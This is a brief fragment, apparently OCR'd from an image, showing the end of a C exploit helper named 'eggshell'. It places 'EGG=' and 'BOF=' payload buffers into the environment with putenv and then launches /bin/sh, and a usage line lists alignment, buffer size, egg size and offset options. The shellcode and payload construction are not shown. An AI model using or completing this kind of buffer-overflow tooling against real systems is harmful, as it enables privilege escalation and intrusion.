   memcpy(egg,"EGG=",4);
  putenv(egg);

  memcpy(bof,"BOF=",4);
  putenv(bof);
  system("/bin/sh");
}

void usage(void) {
  (void)fprintf(stderr,
    "usage: eggshell [-a <alignment>] [-b <buffersize>] [-e <eggsize>] [-o <offset>]\n");
}
------------------------------------------------------------------------------

